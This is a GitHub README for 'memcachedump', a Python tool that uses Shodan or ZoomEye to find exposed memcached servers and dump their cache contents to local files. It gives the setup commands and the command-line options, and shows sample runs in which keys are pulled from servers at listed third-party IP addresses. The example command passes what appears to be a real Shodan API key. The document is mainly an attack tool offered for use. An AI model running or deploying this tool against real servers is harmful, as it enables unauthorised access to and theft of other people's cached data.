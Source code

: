 ![memcachedump Infographic](https://github.com/JLospinoso/memcachedump/raw/master/memcachedump.png)

`memcachedump` is a tool for dumping the cache contents of exposed memcached servers into local text files.

You'll need Python 3 along with [Shodan API Key](https://developer.shodan.io/api) or [ZoomEye Credentials](https://www.zoomeye.org/).

# Running the tool:

```
> python mcd.py --help
usage: mcd.py [-h] [--key KEY] [--email EMAIL] [--password PASSWORD] [--out OUT] [--json]

Scrape data from memcached servers.

optional arguments:
  -h, --help  show this help message and exit
  --key KEY   Shodan API key.
  --out OUT   Output directory for caches.
  --json      Output as JSON. (Default: CSV)
  --continue  Skip servers already listed in output directory ie continue a previous run
  --shuffle	  Shuffle the list of servers from Shodan so they're queried in a random order
  --email EMAIL        ZoomEye Email.
  --password PASSWORD  ZoomEye Password.
```

You must supply your Shodan API `--key` or ZoomEye Credentials `--email xyz@xyz.com --password xyz`. 

Optionally, you can specify an `--out` directory for the text files. By default, `mcd` writes to `./out`.

You can also specify `--json` output. By default, writes a CSV file.

# Example usage

```
> git clone git@github.com:JLospinoso/memcachedump.git
> cd memcachedump
> pip3 install shodan
```

### Using Shodan API Key
```
> python3 mcd.py --key kpVD7oF01vn1I9q6AfqGeqA2wkqJu9up
Results found: 108877
[ ] Found memcached server at IP: 115.159.38.63
[ ] Found memcached server at IP: 37.220.12.242
[ ] Found memcached server at IP: 115.182.69.234
[ ] Found memcached server at IP: 37.187.205.112
[ ] Found memcached server at IP: 65.175.106.142
[ ] Found memcached server at IP: 217.112.131.172
[ ] Found memcached server at IP: 43.246.216.225
[ ] Found memcached server at IP: 123.30.189.230
...
[ ] Connecting to 115.159.38.63.
[ ] Found 5 key lengths at 115.159.38.63.
[ ] Found 5 keys at 115.159.38.63.
[-] Error connecting to 115.159.38.63: 'utf-8' codec can't decode byte 0xff in position 36: invalid start byte
[ ] Connecting to 37.220.12.242.
[ ] Found 1 key lengths at 37.220.12.242.
[ ] Found 1 keys at 37.220.12.242.
[ ] Dumped 1 key values from 37.220.12.242.
[+] Wrote CSV to out\37.220.12.242.csv
[ ] Connecting to 115.182.69.234.
[ ] Found 1 key lengths at 115.182.69.234.
[ ] Found 1 keys at 115.182.69.234.
[ ] Dumped 1 key values from 115.182.69.234.
[+] Wrote CSV to out\115.182.69.234.csv
[ ] Connecting to 37.187.205.112.
[ ] Found 1 key lengths at 37.187.205.112.
[ ] Found 2 keys at 37.187.205.112.
...
```

### Using ZoomEye Credentials
```
> python3 mcd.py --email xyz@xyz.com --password xyz123abc
[ ] Found memcached server at IP: 115.159.38.63
[ ] Found memcached server at IP: 37.220.12.242
[ ] Found memcached server at IP: 115.182.69.234
[ ] Found memcached server at IP: 37.187.205.112
[ ] Found memcached server at IP: 65.175.106.142
[ ] Found memcached server at IP: 217.112.131.172
[ ] Found memcached server at IP: 43.246.216.225
[ ] Found memcached server at IP: 123.30.189.230
...
[ ] Connecting to 115.159.38.63.
[ ] Found 5 key lengths at 115.159.38.63.
[ ] Found 5 keys at 115.159.38.63.
[-] Error connecting to 115.159.38.63: 'utf-8' codec can't decode byte 0xff in position 36: invalid start byte
[ ] Connecting to 37.220.12.242.
[ ] Found 1 key lengths at 37.220.12.242.
[ ] Found 1 keys at 37.220.12.242.
[ ] Dumped 1 key values from 37.220.12.242.
[+] Wrote CSV to out\37.220.12.242.csv
[ ] Connecting to 115.182.69.234.
[ ] Found 1 key lengths at 115.182.69.234.
[ ] Found 1 keys at 115.182.69.234.
[ ] Dumped 1 key values from 115.182.69.234.
[+] Wrote CSV to out\115.182.69.234.csv
[ ] Connecting to 37.187.205.112.
[ ] Found 1 key lengths at 37.187.205.112.
[ ] Found 2 keys at 37.187.205.112.
...
```

All results output to the `out` directory.
